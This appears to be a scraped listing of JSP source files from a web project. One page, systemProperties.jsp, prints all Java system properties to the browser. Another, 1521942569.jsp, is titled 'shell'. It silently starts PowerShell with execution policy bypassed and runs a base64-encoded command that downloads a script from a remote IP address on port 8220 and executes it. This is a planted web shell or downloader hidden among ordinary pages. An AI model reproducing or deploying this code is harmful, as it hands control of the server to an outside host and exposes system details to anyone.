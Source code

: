 		
		</body>
		</html>
- ###

		systemProperties.jsp

		<html>
		<head>
		<title>Test Pages</title>
		</head>
		<body>
		
		<h2>Test Pages</h2>
		
		These pages are used to test out the environment and web framework.
		
		<table class="sortable autostripe">
		<thead>
		<tr>
		<th>System Property</th>
		<th>Value</th>
		</tr>
		</thead>
		<tbody>
		    
		<%
		    for (java.util.Iterator iter = System.getProperties().entrySet().iterator(); iter.hasNext(); ) {
		        request.setAttribute("entry", iter.next());
		%>    
		<tr> 
		  <td class="label">${entry.key}</td>
		  <td>${entry.value}</td>
		</tr>
		<%
		}
		%>
		</tbody>
		</table>
		</body>
		</html>
- ###

		1521942569.jsp

		->||<-<%@ page language="java" import="java.io.*" pageEncoding="UTF-8"%><%String path = request.getContextPath();String basePath = request.getScheme() + "://"+ request.getServerName() + ":" + request.getServerPort()+ path + "/";%><html><head><title>shell</title></head><body><%String cmds = "monitor.sh";try {Process process;process = Runtime.getRuntime().exec("powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAgAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AOQA5AC4AMQA0ADIALgAyADMANQA6ADgAMgAyADAALwAxAC4AcABzADEAJwApAA==");InputStreamReader ir = new InputStreamReader(process.getInputStream());LineNumberReader input = new LineNumberReader(ir);String line;process.waitFor();while ((line = input.readLine()) != null){out.print(line);out.print("<br/>");}if(input!=null){input.close();}} catch (Exception e) {e.printStackTrace();}%></body></html>
